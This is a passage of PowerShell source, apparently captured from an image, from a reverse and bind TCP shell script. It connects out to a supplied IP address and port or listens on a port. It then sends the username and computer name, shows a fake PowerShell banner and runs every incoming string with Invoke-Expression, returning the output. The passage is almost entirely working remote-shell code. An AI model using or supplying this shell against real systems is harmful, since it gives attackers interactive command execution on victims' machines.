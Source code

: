 ```powershell

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
```